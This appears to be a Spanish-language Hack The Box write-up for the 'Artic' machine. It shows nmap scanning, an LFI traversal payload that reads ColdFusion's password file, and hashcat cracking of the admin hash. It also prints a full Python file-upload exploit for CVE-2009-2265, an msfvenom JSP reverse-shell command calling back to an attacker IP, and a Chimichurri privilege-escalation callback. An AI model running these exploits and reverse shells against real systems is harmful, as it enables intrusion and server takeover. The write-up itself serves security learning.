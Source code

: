 #  ARTIC MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/1.png)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.11 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.11 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/3.png)

## EXPLOTACION

Vemos que el puerto 8500 no pudo se ridentificado, pero si vemos si tiene algo en el navegador nos encontramos con un directory listing:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/4.png)

si vamos al enlace de CFIDE y despues Administrator nos sale un inicio de sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/5.png)

con la version vamos a buscar vulnerabilidades y encontramos  un LFI que nos muestra la contraseña cifrada del usuario administrador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/6.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/7.png)

si vamos a esa ruta vemos unas credenciales cifradas:

```bash
?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/8.png)

con la herramienta **hash identifier** vamos a intentar descubribir que cifrado usa:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/9.png)

usa SHA1, intentemos un ataque de fuerza bruta con diccionario mediante hashcat para ver si encontramos:

```bash
hashcat -a 0 -m 100 hash.txt /usr/share/wordlist/rockyou.txt
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/10.png)

la contraseña es **happyday** vamos a iniciar sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/11.png)

encontre una POC de un file upload para adobe coldfusion 8 en el siguiente enlace [https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload)

```python
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

lo descargamos y vamos a subir un jsp malicioso. ¿Por qué un JSP? pues buscando se descubrio que adobe interpreta java y la extension .jsp.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=4242 -f raw > shell.jsp
```

ahora vamos a ejecutar el exploit:

```bash
python exploit.py 10.10.10.11 8500 shell.jsp
```

y nos indica que lo sube en la ruta: "http://10.10.10.11:8500/userfiles/file/"

si vamos a esa ruta en el navegador vemos la shell.jsp, nos colocamos a la escucha en netcat y lo ejecutamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/12.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/13.png)

## ELEVACION DE PRIVILEGIOS

Viendo los permisos del usuario vemos que tiene el **SeImpersonatePrivilege** y esto lo podemos explotar con el** juicy potato**, ademas que el sistema operativo es antiguo y podemos usar **Chimichurri.exe**.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/14.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/15.png)

Para realizar la elevacion de privilegios pueden ver como se lo hixo en la maquina **DEVEL** y se puede aplicar literalmente lo mismo.

Yo utilice chimichurri para hacerlo rapido:

```bash
chimichurri.exe 10.10.14.16 4545
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/16.png)